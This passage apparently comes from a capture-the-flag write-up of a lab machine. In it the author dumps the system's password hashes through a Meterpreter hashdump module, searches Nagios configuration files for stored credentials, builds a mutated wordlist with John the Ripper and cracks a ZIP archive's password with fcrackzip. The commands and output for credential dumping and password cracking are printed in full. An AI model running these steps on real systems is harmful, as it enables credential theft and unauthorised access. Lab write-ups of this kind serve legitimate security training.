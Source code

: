 ```shell_session
meterpreter > run post/linux/gather/hashdump

[+] root:$6$SZW8sIi9$wOVuR1P.rTHmPXQ7hmlmKWfZqAglZdRSFm8lUuvqvVPv3gbGtuhUmbpjcc/qyuPToTwJUwPrQkVxybYQQSTyO/:0:0:root:/root:/bin/bash
[+] nagios:$6$z8IWvJ1q$iASVAFseJ7asm37NKa1N5FRS0oXJc8lCE/oMEovyxOJwcNOr29hf5rejvWsQ1a0GBtivqM/i7pN2Ixw4AKyf..:1001:1001::/home/nagios:/bin/bash
[+] warluigi:$6$DLTvExsa$UjG07oKR9IZuTTlSAeK1Bt21Jr/U3Ket033QlaeonPo2miRkHGpG.SjiNazc2BNyVyeDpmKyc9fPB67LpiT8B0:1000:1000:,,,:/home/warluigi:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20170613232331_default_192.168.122.122_linux.hashes_125801.txt
```

I continued to look for some plain-text credentials that may be hanging around the system by checking out the Nagios installation. The sample configuration file that I found in `/opt/nagios-4.1.1/sample-config/nagios.cfg` suggested that there was a resource file that could store passwords in it:

```ini
# RESOURCE FILE
# This is an optional resource file that contains $USERx$ macro
# definitions. Multiple resource files can be specified by using
# multiple resource_file definitions.  The CGIs will not attempt to
# read the contents of resource files, so information that is
# considered to be sensitive (usernames, passwords, etc) can be
# defined as macros in this file and restrictive permissions (600)
# can be placed on this file.

resource_file=/usr/local/nagios/etc/resource.cfg
```

I checked out the default location of `resource.cfg`, and whilst the file was there, there were no passwords within it. Likewise, the only user within `/usr/local/nagios/etc/htpasswd.users` was the previously identified default user [`nagiosadmin`], so it was seeming this may just be an unconfigured installation without much to go on.

Having failed to find any plain text credentials, I proceeded to build up a new word list, using the previously found hint file as a basis for it. The phrase "Peach Loves Me" stood out in the hint file, as it was in proper case, so I created a few permutations of this manually along with "warluigi" and used them as the seed for the word list I created using JTR:

```shell_session
root@kali:~# john --wordlist=flag2list.txt --rules --stdout > flag2mutations.txt
Press 'q' or Ctrl-C to abort, almost any other key for status
252p 0:00:00:00 100.00% (2017-06-13 23:51) 3600p/s Warluiging
```

With the word list created, I attempted to crack the ZIP file with it, and got an almost instant result:

```shell_session
root@kali:~# fcrackzip -u -D -p flag2mutations.txt flag2.zip -v
found file 'flag2.txt', (size cp/uc    217/   331, flags 9, chk a491)

PASSWORD FOUND!!!!: pw == peachlovesme

root@kali:~# unzip flag2.zip
Archive:  flag2.zip
[flag2.zip] flag2.txt password:
  inflating: flag2.txt               
```
